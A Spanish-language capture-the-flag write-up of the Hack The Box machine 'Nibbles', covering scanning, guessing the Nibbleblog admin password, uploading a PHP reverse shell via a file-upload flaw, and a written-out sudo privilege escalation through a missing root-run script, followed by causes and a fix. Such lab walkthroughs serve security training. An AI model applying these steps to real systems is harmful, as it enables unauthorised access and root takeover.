 # Nibbles ![Avatar](https://www.hackthebox.eu/storage/avatars/344a8f99e8f7dddfed764f791e2731df_thumb.png)

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

## Enum
### HTTP
En la pagina alojada en la ip encontramos el siguiente comentario en el source
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
#### Nibbleblog
Encontramos dos vulnerabilidades para este sistema de blog:
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                           | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                            | php/remote/38489.rb
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Enumeremos subdirectorios y archivos .php a ver si encontramos la version
```
/README (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/index.php (Status: 200)
/install.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/sitemap.php (Status: 200)
/themes (Status: 301)
/update.php (Status: 200)
```
Viendo el README vemos claramente que la version es la 4.0.3
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```
El unico exploit que tenemos para esa version requiere de autenticación previa, probando combos de creds mas probables encontramos que admin:nibbles funciona

Una vez logeados seguimos los pasos de esta mini guia
```
https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/
```
Y en el ultimo punto subimos la reverse shell de pentestmonkey configurada con nuestra IP y puerto donde pongamos el listener 

## Privesc 
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Bien parece que el script no existe, creemoslo pues
```
nibbler@Nibbles:/home/nibbler$ mkdir personal
nibbler@Nibbles:/home/nibbler$ cd personal
nibbler@Nibbles:/home/nibbler/personal$ mkdir stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
```

# Analísís de la intrusión
### Bad password policie
Las credenciales del administrador son facilmente guesseables, gracias a ello accedimos al servicio web
### CVE-2018-16604
Existe una vulnerabilidad en este servicio que nos permite subir y ejecutar código php en el servidor
### Unsecure script privileged execution
Tenemos permisos para ejecutar un script bash como super usuario, el problema esta en que este script no esta en la carpeta, y resulta que somos dueños de los directorios existentes de esta ruta, lo que nos permite crear el resto de la ruta y el propio script, llevandonos a la cima de privilegios del sistema

# Solución
### CVE-2018-16604 
Este CVE no tiene un parche liberado por el fabricante de modo que si queremos arreglar este vector de entrada nos va a tocar ponernos manos a la obra si queremos arreglarlo no nos queda otra que actualizar a la 4.0.5
